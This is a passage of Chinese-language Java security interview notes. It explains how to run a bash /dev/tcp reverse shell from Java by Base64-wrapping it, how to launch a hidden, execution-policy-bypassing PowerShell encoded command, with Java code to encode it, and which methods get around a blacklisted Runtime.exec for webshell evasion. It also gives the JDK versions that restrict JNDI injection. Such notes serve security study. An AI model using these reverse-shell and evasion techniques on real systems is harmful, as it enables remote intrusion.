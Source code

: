 

### Java中可以执行反弹shell的命令吗

可以执行，但需要对命令进行特殊处理。例如直接执行这样的命令：`bash -i >& /dev/tcp/ip/port 0>&1`会失败，简单来说因为`>`符号是重定向，如果命令中包含输入输出重定向和管道符，只有在`bash`下才可以，使用Java执行这样的命令会失败，所以需要加入`Base64`

```shell
bash -c {echo,base64的payload}|{base64,-d}|{bash,-i}
```

针对`Powershell`应该使用以下的命令

```shell
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的Base64
```

这个特殊的Base64和普通Base64不同，需要填充0，算法如下

```java
public static String getPowershellCommand(String cmd) {
    char[] chars = cmd.toCharArray();
    List<Byte> temp = new ArrayList<>();
    for (char c : chars) {
        byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
        for (byte b : code) {
            temp.add(b);
        }
        temp.add((byte) 0);
    }
    byte[] result = new byte[temp.size()];
    for (int i = 0; i < temp.size(); i++) {
        result[i] = temp.get(i);
    }
    String data = Base64.getEncoder().encodeToString(result);
    String prefix = "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ";
    return prefix + data;
}
```



### 假设`Runtime.exec`加入黑名单还有什么方式执行命令

其实这个问题有点类似`JSP Webshell`免杀

大致方法有这些：使用基本的反射，ProcessImpl和ProcessBuilde，JDNI和LDAP注入，TemplatesImpl，BCEL，BeansExpression，自定义ClassLoader，动态编译加载，ScriptEngine，反射调用一些native方法，各种EL（SPEL和Tomcat EL等）



### RMI和LDAP类型的JNDI注入分别在哪个版本限制

RMI的JNDI注入在8u121后限制，需要手动开启`com.sun.jndi.rmi.object.trustURLCodebase`属性

LDAP的JNDI注入在8u191后限制，需要开启`com.sun.jndi.ldap.object.trustURLCodebase`属性



### RMI和LDAP的限制版本分别可以怎样绕过

